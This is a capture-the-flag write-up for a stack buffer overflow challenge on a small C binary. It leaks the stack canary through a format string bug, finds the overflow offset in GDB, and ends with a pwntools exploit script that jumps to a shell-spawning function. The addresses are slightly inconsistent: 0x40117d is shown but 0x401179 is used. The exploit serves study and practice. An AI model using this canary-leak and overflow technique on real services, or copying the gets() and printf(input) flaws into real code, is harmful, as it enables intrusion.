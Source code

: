 # Problem:
namp scan get the following:   
```
2500/tcp open     rtsserv?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, NULL: 
|_    Warning: this server only sends one line at a time. If you've opened a shell, this may lead to some weird shenanigans until you are able to get a proper shell with netcat.Welcome to the C-Ty! You notice a canary watching over these parts. But can you get past it with the right set of words? Input encoded in hex:
```   
Attached are two files: cty.c and cty (binary)

## Classic BOF with Canary problem
### Run the cty binary:   
```
kali@kali:~/ct-y$ ./cty
AAAAAAAAAAAAAAAAa
AAAAAAAAAAAAAAAAa
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
```    
### Analysis

The code is a simple c code:
``` 
#include <stdio.h>
#include <unistd.h>
#include <string.h>
 
void dumpFlag() {
    puts("The blue key to The Gate is '[key removed]'");
}
 
void runIntoTheCty() {
    puts("Running into the C-Ty...");
    char* args[] = {"/bin/sh", NULL};
    execv("/bin/sh", args);
}
 
int main() {
    char input[256];
    gets(input);
    printf(input);
    puts("");
    gets(input);
    printf(input);
    puts("");
}                      
```    
With pwn we can check the binary **cty**: it is a 64 bit ELF. As you can see, Canary protection is active.    
```
kali@kali:~/ct-y$ pwn checksec cty                                                                                
[*] '/home/kali/ct-y/cty'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
With GDB we can see in the main function, the canary is checked:    
```
   0x0000000000401256 <+125>:   call   0x401030 <puts@plt>
   0x000000000040125b <+130>:   mov    eax,0x0
   0x0000000000401260 <+135>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401264 <+139>:   sub    rdx,QWORD PTR fs:0x28     //check canary. RDX is the register
   0x000000000040126d <+148>:   je     0x401274 <main+155>
   0x000000000040126f <+150>:   call   0x401040 <__stack_chk_fail@plt>

   ``` 
As soon as we see the c code, we see a format string in **printf()**, and an overflow buffer in **gets()**.    
### Leak the Canary
We do a python code to see possible outputs of **format strings**      
**%dlx** is used to print out address value

(This article explains well about what is <a href="https://www.win.tue.nl/~aeb/linux/hh/hh-5.html#ss5.5">format strings attack</a> )
```
#!/usr/bin/env python3
from pwn import *

io = ELF("./cty")
for i in range(50):
  p = io.process(level="error")
  p.sendline("33")
  p.sendline("AAAA %%%d$lx" % i)
  p.recvline()
  print("%d - %s" % (i, p.recvline().strip()))
  p.close()
```
Output is:
```
kali@kali:~/ct-y$ python3 t1.py
[*] '/home/kali/ct-y/cty'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
0 - b'AAAA %0$lx'
1 - b'AAAA 6c24312520414141'
2 - b'AAAA 0'
3 - b'AAAA 7fee9f427980'
4 - b'AAAA 7fff84aba680'
5 - b'AAAA 0'
6 - b'AAAA 2436252041414141'
7 - b'AAAA 7f68d200786c'
8 - b'AAAA 0'
9 - b'AAAA 7ffe058d6790'
10 - b'AAAA 7f866c983730'
11 - b'AAAA 7fe96a5b4ac0'
12 - b'AAAA 0'
13 - b'AAAA 0'
14 - b'AAAA 0'
15 - b'AAAA 0'
16 - b'AAAA ffffffff'
17 - b'AAAA 0'
18 - b'AAAA 7ffc83d342a8'
19 - b'AAAA 7f1aa9e29730'
20 - b'AAAA 0'
21 - b'AAAA 0'
22 - b'AAAA 0'
23 - b'AAAA 0'
24 - b'AAAA 0'
25 - b'AAAA 0'
26 - b'AAAA 0'
27 - b'AAAA f0b5ff'
28 - b'AAAA c2'
29 - b'AAAA 7ffefe41cea7'
30 - b'AAAA 7ffd535a3946'
31 - b'AAAA 7f1a482769f5'
32 - b'AAAA 0'
33 - b'AAAA 4012cd'
34 - b'AAAA 0'
35 - b'AAAA 0'
36 - b'AAAA 401280'
37 - b'AAAA 401080'
38 - b'AAAA 7ffc4da218f0'
39 - b'AAAA 369bda5ddbf1bc00'
40 - b'AAAA 401280'
41 - b'AAAA 7fecf9ae4e0b'
42 - b'AAAA 0'
43 - b'AAAA 7ffe78103658'
44 - b'AAAA 100040000'
45 - b'AAAA 4011d9'
46 - b'AAAA 0'
47 - b'AAAA d2d22253bdd7b319'
48 - b'AAAA 401080'
49 - b'AAAA 7ffe0446bea0'
```
Out starting with **0x7f** correspond to libc memory addresses. Canary usually ends with **00**.
In 39th, we see one canary possible address.   
To calculate if the canary corresponds with output 39 of **format string**, we use gdb again:

```
kali@kali:~/ct-y$ gdb cty
GNU gdb (Debian 9.2-1) 9.2
gef➤  disass main
Dump of assembler code for function main:
0x00000000004011d9 <+0>:     push   rbp
.....
0x0000000000401260 <+135>:   mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000401264 <+139>:   sub    rdx,QWORD PTR fs:0x28
0x000000000040126d <+148>:   je     0x401274 <main+155>
0x000000000040126f <+150>:   call   0x401040 <__stack_chk_fail@plt>
...
End of assembler dump.
gef➤  b *main+139
Breakpoint 1 at 0x401264
gef➤  r
Starting program: /home/kali/ct-y/cty 
%39$lx
d2f524612effb00     //Canary value at 39th
A
A
Breakpoint 1, 0x0000000000401264 in main ()
.....
gef➤  p $rdx
$2 = 0xd2f524612effb00  //Canary value at the rdx. They match
````
Perfect, we get the location at 39.

### Padding
Now we calculate the padding we use to overwrite the canary and then the return address.  
Breakpoint set at the canary check point again: *main+139
```
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
gef➤  r
Starting program: /home/kali/ct-y/cty 
a
a
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa

Breakpoint 1, 0x0000000000401264 in main ()
gef➤  p/x $rdx               //rdx overload with created pattern, use that to find the offset
$3 = 0x6261616161616169
gef➤  pattern offset 0x6261616161616169
[+] Searching '0x6261616161616169'
[+] Found at offset 264 (little-endian search) likely
```
We found the offset to **canary** likely to be **264**. So we create the payload to be like this:
```
"A"*264+CANARY+"A"*8+ ROP
```
**ROP** is the function jump address. In this case, would be the address of **void runIntoTheCty()**.
We can find it using GDB. The address is **0x40117d**
```
gef➤  b runIntoTheCty
Breakpoint 2 at 0x40117d
```
Thus we craft the python program like this:
```
#!/usr/bin/evn python3
from pwn import *

e = ELF('./cty')
io = e.process()
gdb.attach(io)
io.sendline('%39$lx')
leak = io.recvline()
canary = int(leak.strip(),16)
log.info("Canary: %s" % (hex(canary)))

run = 0x401179
pl = b'A'*8
payload = b'A'*264 + p64(canary) + pl + p64(run)
io.sendline(payload)
io.interactive()
```




